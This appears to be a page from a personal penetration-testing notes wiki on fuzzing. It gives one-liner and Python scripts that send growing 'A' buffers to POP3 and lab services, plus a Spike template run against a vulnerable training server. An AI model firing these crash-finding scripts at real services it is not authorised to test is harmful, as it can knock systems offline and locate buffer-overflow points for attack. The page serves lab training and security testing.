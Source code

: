 **Fuzzing** or fuzz testing is an automated software testing technique that involves providing invalid, unexpected, or random data as inputs to a computer program. The program is then monitored for exceptions such as crashes, failing built-in code assertions, or potential memory leaks.

One-line Perl fuzzer:

```perl
$ perl -e 'print "\x41" x20 . "BCD" x3;'
```

One-line Python fuzzer + little-endian inversion:

```bash
$ export ExploitEducation=$(python -c 'import struct; print "A"*64 + struct.pack("I", 0x0d0a090a)')
```

Dedicated script (python2):

```python
#!/usr/bin/python
import socket

# Create an array of buffers, while incrementing them

buffer=["A"]
counter=100
while len(buffer) <= 30:
    buffer.append("A"*counter)
    counter=counter+200

for string in buffer:
    print "Fuzzing PASS with %s bytes" % len(string)
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect(('192.168.1.1',110))
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS ' + string + '\r\n')
    s.send('QUIT\r\n')
    s.close()
```

Alternative (python3):

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.208.211"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Spike:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/vulnserver]
└─$ cat trun.spk             
s_readline();
s_string("TRUN ");
s_string_variable("0");

┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/vulnserver]
└─$ generic_send_tcp 10.10.108.230 9999 trun.spk 0 0
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
line read=Welcome to Vulnerable Server! Enter HELP for help.
Variablesize= 5004
Fuzzing Variable 0:2
line read=Welcome to Vulnerable Server! Enter HELP for help.
Variablesize= 5005
Fuzzing Variable 0:3
line read=Welcome to Vulnerable Server! Enter HELP for help.
Variablesize= 21
Fuzzing Variable 0:4
line read=Welcome to Vulnerable Server! Enter HELP for help.
```

Web fuzzing tools:
- [fuff](../Tools/fuff.md)
- wfuzz
- [Burpsuite](../Tools/Burpsuite.md) (Intruder)
- [REcollapse](https://github.com/0xacb/recollapse)